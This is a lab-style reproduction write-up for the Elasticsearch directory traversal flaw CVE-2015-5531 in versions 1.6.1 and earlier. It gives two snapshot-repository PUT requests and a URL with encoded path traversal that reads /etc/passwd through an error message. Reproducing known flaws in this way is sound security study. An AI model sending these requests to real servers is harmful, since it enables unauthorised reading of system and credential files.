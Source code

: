 # ElasticSearch Directory Traversal Vulnerability (CVE-2015-5531)

Jre version: openjdk: 8-jre

Elasticsearch version: v1.6.0

Impact version: 1.6.1 or less

## Principle

Reference article

- https://www.exploit-db.com/exploits/38383/
- http://www.freebuf.com/vuls/99942.html

Description:

Elasticsearch 1.5.1 and before, the vulnerability could be triggered without any configuration. After the new version, the configuration file elasticsearch.yml must have `path.repo`, the configuration value is a directory, and the directory must be writable, which is equivalent to limiting the root location of the backup repository. This value is not configured and is not enabled by default.

## Vulnerability recurrence

### 1. Create a new warehouse

```
PUT /_snapshot/test HTTP/1.1
Host: your-ip: 9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test"
    }
}
```

![](1.png)

### 2. Create a snapshot

```
PUT /_snapshot/test2 HTTP/1.1
Host: your-ip: 9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata"
    }
}
```

![](2.png)

### 3. Directory traversal to read arbitrary files

Visit `http://your-ip:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`

![](3.png)

As shown above, the file content (after encoding) is included in the error message, and the file can be obtained by decoding it:

![](4.png)